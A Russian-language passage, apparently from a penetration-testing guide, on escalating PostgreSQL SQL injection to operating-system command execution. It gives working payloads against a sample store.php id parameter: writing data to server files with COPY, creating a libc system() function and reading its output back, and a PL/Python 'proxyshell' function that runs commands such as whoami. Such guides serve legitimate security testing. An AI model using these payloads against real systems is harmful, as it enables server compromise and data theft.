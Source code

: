 `/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Инъекции команд ОС

PostgreSQL предоставляет механизм для добавления пользовательских функций с использованием как динамической библиотеки, так и скриптовых языков, таких как python, perl и tcl.

##### Динамическая библиотека

До PostgreSQL 8.1 можно было добавить пользовательскую функцию, связанную с `libc`:

`CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`

Поскольку `system` возвращает `int`, как мы можем получить результаты из `system` stdout?

Вот маленький трюк:

- создайте таблицу `stdout`: `CREATE TABLE stdout(id serial, system_out text)`
- выполните команду ОС, перенаправляя её `stdout`: `SELECT system('uname -a > /tmp/test')`
- используйте операторы COPY для передачи вывода предыдущей команды в таблицу `stdout`: `COPY stdout(system_out) FROM '/tmp/test*'`
- получайте выходные данные из `stdout`: `SELECT system_out FROM stdout`

###### Пример

```php
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python позволяет пользователям писать функции PostgreSQL на python. Язык недоверенный, поскольку нет возможности ограничить действия пользователя в ОС. Он не устанавливается по умолчанию и может быть включен в данной базе данных с помощью CREATELANG.

- Проверьте, включен ли PL/Python в базе данных: `SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`
- Если нет, попробуйте включить: `CREATE LANGUAGE plpythonu`
- Если что-то из вышеперечисленного удалось, создайте функцию proxyshell: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`
- Радуйтесь: `SELECT proxyshell(команда ОС);`

###### Пример

- Создайте функцию proxyshell: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`
- Запустите команду ОС: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

##### Plperl

